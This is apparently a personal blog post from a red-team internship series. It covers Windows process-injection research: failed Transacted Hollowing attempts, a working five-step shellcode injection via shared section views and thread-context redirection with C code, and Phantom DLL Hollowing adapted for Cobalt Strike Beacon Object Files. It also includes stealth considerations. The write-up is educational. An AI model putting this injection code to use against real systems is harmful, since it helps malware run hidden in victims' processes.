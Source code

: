 ```yaml
---
layout: article
title:  Week 7
tags: internship beacon-object-files cobalt-strike process-injection phantom-dll-hollowing
date:   2021-06-05 08:00:00 +0100
show_edit_on_github: false
show_subscribe: false
license: false
key: week-7
categories: archived
---
```


This week I try to mend what is broken, sharing is caring, and I play a round of [Phasmophobia](https://store.steampowered.com/app/739630/Phasmophobia/) but with code.
<!--more-->

### 1. Past, present, future

Writing this blogpost was kind of difficult. There are a lot of interesting things I would like to cover, but they're also very similar to previous techniques or methods I've already covered in my previous blogposts. On one side, they're more advanced forms of said techniques, on the other they're also exponentially more difficult to fully understand, hence I feel like I won't do them any justice with my ramblings.

With that said, I'd like to cover some of the things I've been working on this week and where I'm headed next.

[Last week](/2021/05/01/week-6.html) I introduced some additional persistence techniques through registry keys and talked about the concepts of [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) and [Process Doppelganging](https://attack.mitre.org/techniques/T1055/013/), as well as [Transacted Hollowing](https://blog.malwarebytes.com/threat-analysis/2018/08/process-doppelganging-meets-process-hollowing_osiris/) introduced in the [Osiris banking trojan](https://en.wikipedia.org/wiki/Kronos_(malware)).

I attempted to replicate the functionality of Transacted Hollowing but ended up stuck at the part where the [PEB](https://en.wikipedia.org/wiki/Process_Environment_Block) is patched and the remote entry point is updated, so I never managed to get code execution. (╯°□°）╯︵ ┻━┻

### 2. One step forward, 2 steps back

With the help of some very talented friends in the infosec community, I've tried to identify what I was doing wrong and if what I was doing is even possible.

Code that patches the remote entry point:
```c
DWORD oldProtect;
SIZE_T bytesToChange = 6;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, PAGE_READWRITE, &oldProtect);

char patch[6] = { 0 };
memcpy_s(patch, 1, "\xE9", 1);
DWORD jumpsize = rBaseAddr - rEntrypoint;
memcpy_s(patch + 1, 4, &jumpsize, 4);
memcpy_s(patch + 5, 1, "\xC3", 1);
bytesWritten = 0;
NtWriteVirtualMemory(pi.hProcess, rEntrypoint, patch, sizeof(patch), &bytesWritten);

DWORD oldOldProtect;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, oldProtect, &oldOldProtect);
```

I have been assuming that upon process creation, the *AddressOfEntryPoint* pulled from the PE header points to `main()`, which might not be true. Supposedly it points at `crtWinMain` which is responsible for setting up the standard library, running global constructors and initializing global variables. However, I'm not sure this is the issue, as I'm redirecting execution to a new executable which doesn't need the global variables and constructors, maybe it needs the standard library though.

A second issue might be the instructions I'm using to patch the entry point: `JMP <offset>`. JMP or `0xE9` is a [relative jump instruction](https://www.ragestorm.net/blogs/?p=107), meaning it uses a pre-calculated offset (destination_address - source_address) to jump from the current address to the target address. The range we can jump is limited to 2GiB, this comes from the fact that we have 5 bytes for the entire patch, of which 4 for the offset and 1 for the JMP instruction. A signed integer in C is 4 bytes, its maximum positive value is 2,147,483,647 or 0x7FFFFFFF in hexadecimal (2^31 - 1). This matches the value of 2GiB (gibibytes) in bytes: 2,147,483,648 or 0xFFFFFFFF.

Again, however, it is unlikely that the offset between the current entry point address and the target entry point address is bigger than 2GiB, given that we're mapping the section into a newly created process with few loaded libraries.

I have also noticed that when calling `NtProtectVirtualMemory` on the remote entry point, followed by calling `NtWriteVirtualMemory` on the remote entry point, the address associated with the remote entry point `rEntrypoint` is different.

```c
NTSYSAPI 
NTSTATUS
NTAPI

NtProtectVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN OUT PULONG           NumberOfBytesToProtect,
  IN ULONG                NewAccessProtection,
  OUT PULONG              OldAccessProtection );
```

If we look at the function prototype of `NtProtectVirtualMemory`, the `*BaseAddress` parameter is declared as **IN OUT**. On input, it will change protections on all pages containing the specified address. On output it will point to the *page start address*. This means that when we specify the remote entry point address `rEntrypoint` as `*BaseAddress` -> `0x00001337`, it will change protections on the page containing the address `0x00001337`, and then update `*BaseAddress` to point to the start of the page -> `0x00001000`.

As a result, an offset of `- 0x337` is introduced to our `rEntrypoint` variable, and the following `NtWriteVirtualMemory` call will write our patch to the start of the page at `0x00001000` instead of overwriting the remote entry point at `0x0001337`. This means I will either have to ommit the `NtProtectVirtualMemory` call by mapping the section with **RWX** permissions instead of **RX** permissions and sacrifice stealth in the process, or factor in the offset and restore the original address, or avoid using the same variable in both functions alltogether.

As of time of posting, I haven't found a solution yet and decided to take a step back and try something a little bit easier first. ┬─┬ノ( º _ ºノ)

### 3. Views... views everywhere

Last week I also discussed Section Objects and Views. The key takeaway was that Section Objects represent shared memory that can be accessed by different proccesses through a View. Naturally I'm going to abuse this, in only 5 steps no less :)

#### 1. Creating a section

You cannot build a house without a solid foundation, neither can we inject shellcode without memory. The first thing we need is a new empty section with **PAGE_EXECUTE_READWRITE** permissions.

```c
NtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&section_size, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

#### 2. Mapping the views

With the section created, we can now map a view of it into the local process with **PAGE_READWRITE** permissions and into the remote target process with **PAGE_EXECUTE_READ** permissions.

```c
LPVOID localSectionAddress = 0;
NtMapViewOfSection(hSection, GetCurrentProcess(), &localSectionAddress, 0, 0, NULL, &shellcode_size, ViewUnmap, 0, PAGE_READWRITE);

LPVOID remoteSectionAddress = 0;
NtMapViewOfSection(hSection, pi.hProcess, &remoteSectionAddress, 0, 0, NULL, &shellcode_size, ViewUnmap, 0, PAGE_EXECUTE_READ);
```

#### 3. Payload!

Once the section is mapped, we can write our shellcode to the mapped section via the **local** process. Because the section was mapped to the local process with **PAGE_READWRITE** permissions, we can write to it without issue, and the changes will be reflected in the remote process because the section is shared memory.

```c
memcpy(localSectionAddress, shellcode, shellcode_size);
```

#### 4. More entry point redirection

With the shellcode in place, we can use `NtGetContextThread` and `NtSetContextThread` to update the `RCX` register to contain the remote section address.

```c
NtGetContextThread(pi.hThread, &ctx);

ctx.Rcx = (DWORD64)remoteSectionAddress;

NtSetContextThread(pi.hThread, &ctx);
```

#### 5. Hackerman

We have successfully abused shared memory to execute shellcode in a remote process.

```c
NtResumeThread(pi.hThread, NULL);
```

![Mr. Robot](https://media.giphy.com/media/l4EpkVLqUj8BI7OV2/giphy.gif)

### 4. Let's get spooky

Knowing that I could use Section Object and Views in combination with `NtGetContextThread` and `NtSetContextThread`, I was ready to revisit my Transacted Hollowing problems when I stumbled into a [blogpost](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing) on DLL hollowing by [@Forrest Orr](https://twitter.com/_ForrestOrr).

The post goes over the differences between legitimate memory allocation and malicious memory allocation. In short it comes down to differences in protections (R,W,X) between private memory, mapped memory and image memory, and for image memory in particular between the different sections, most notable the `.text` section which is **RX** protected.

Further on in his post, he details a new concept called [Phantom DLL Hollowing](https://github.com/forrest-orr/phantom-dll-hollower-poc) which uses Transactions (TxF) to avoid the need to use `NtProtectVirtualMemory` and avoid creating a new private view of the modified image section.

When a Section Object is created from a portable executable (PE) file, the memory type associated with the section will be image memory (MEM_IMAGE) and by default this is RWXC (read, write, execute, copy) protected. By default, mapped views of image sections created from DLLs are shared as a memory optimization by Windows. When a process modifies a mapped view of a shared section, Windows will store a private copy of the modified section in that process.

Phantom DLL Hollowing uses a transaction to read in a legitimate DLL, modify the `.text` section in the DLL with position independent shellcode (PIC), create a new Section Object from the transacted file, roll back the transaction and map the malicious Section into process memory to achieve code execution.

I have managed to successfully get code execution using this technique adapted to a Beacon Object File using the Beacon process to inject in.

![Phantom Hollowing BOF](/assets/images/phantom-hollowing.png)

Unfortunately I ran into similar issues as I did with Transacted Hollowing when trying to get the remote process to execute the shellcode in the mapped section. There are still a lot of technical concepts used by this technique which I don't (fully) understand, so I will save the technical deepdive and code for next week's blogpost.

### 5. Wrapping up

I feel like I've reached a point this week, where resources are scarce, documentation is obscure and techniques got exponentially more difficult to understand and pull off. Whereas at first I would spent the majority of my time writing code, I now spent more time on research, and unfortunately time is running out really soon. I do however enjoy the challenge of it all, and I look forward to sharing the solutions to my problems when I find them.

`NtDelayExecution(FALSE, 604800000);`